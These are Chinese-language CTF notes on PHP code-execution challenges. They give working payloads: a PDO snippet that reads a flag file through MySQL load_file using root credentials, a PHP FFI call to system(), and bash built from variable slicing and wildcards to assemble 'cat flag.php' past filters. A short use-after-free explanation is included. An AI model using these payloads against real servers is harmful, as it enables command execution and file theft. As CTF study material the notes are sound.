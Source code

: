 ```php
c=try {$dbh= new PDO('mysql:host=localhost;dbname=ctftraining','root','root');foreach($dbh->query('select load_file("/flag36.txt")')as $row){echo($row[0])."|";}$dbh=null;}catch (PDOException $e){echo $e->getMessage();exit(0);}exit(0);
```

### UAF(use after free)
* 概述

    >参见[UAF (Use After Free)漏洞分析及利用](https://blog.csdn.net/qq_31481187/article/details/73612451)

    应用程序调用`free()`释放内存时，如果内存块小于`256kb`,`dlmalloc`并不马上将内存块释放回内存，而是将内存块标记为空闲状态。这么做的原因有两个:一是内存块不一定能马上释放回内核(比如内存块不是位于堆顶端)，二是供应用程序下次申请内存使用(主要原因，我觉得应该是为了提高效率)。当`dlmalloc`种空闲内存达到一定值时`dlmalloc`才将空闲内存释放回内核。如果应用程序申请的内存大于`256kb`，`dlmalloc`调用`mmap()`向内存申请一块内存，返还给应用程序使用。如果应用程序释放的内存大于`256kb`，`dlmalloc`马上调用`munmao()`释放内存。`dlmallloc`不会缓存大于`256kb`的内存块，因为这样的内存块太大了，最好不要长期占用这么大的内存资源。

* 正文

    如此可见，如果`p1`指针指向的地址里面有一个函数`p1[3]=echo`,后来对`p1`空间进行释放，虽然释放了，但是内存还没有归还，还可以继续调用，然后申请一个和`p1`相同大小的`p2`空间，那么系统就还会把`p1`的空间分配给`p2`，此时对`p2`进行修改，就会修改`p1`中的内容，替换函数为`p2[3]=system`，然后再调用`p1[3]`就可以执行系统命令了

### FFI(语言交互接口)

```php
c=$ffi=FFI:cdef("int system(const chattrr *command);");
$a='/readflag > /var/www/html/1.txt';
$ffi->system($a);exit();
```
### 命令构造

>用于system()

从当前路径中截取字母构造读取命令`nl.cat等等等等`


`${PATH:~0}${PWD:~0}$IFS????.???`~数字或者字母都代表从最后往前数第几个字母，从这个位置开始截取后面的字符串

`#`代表取长度，`#SHLVL`深度数字的长度为1，也就是深度是一个数字，对深度取长度就是1

>/var/www/html # ls /bin

`${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???`cat flag.php


* 常用变量

```s
${PATH}当前路径
${SHLVL}深度
${HOME}
${PWD}当前目录
${BASH}
${PHP_VERSION}PHP版本
${PHP_CFLAGS}
```

### $(cmd)
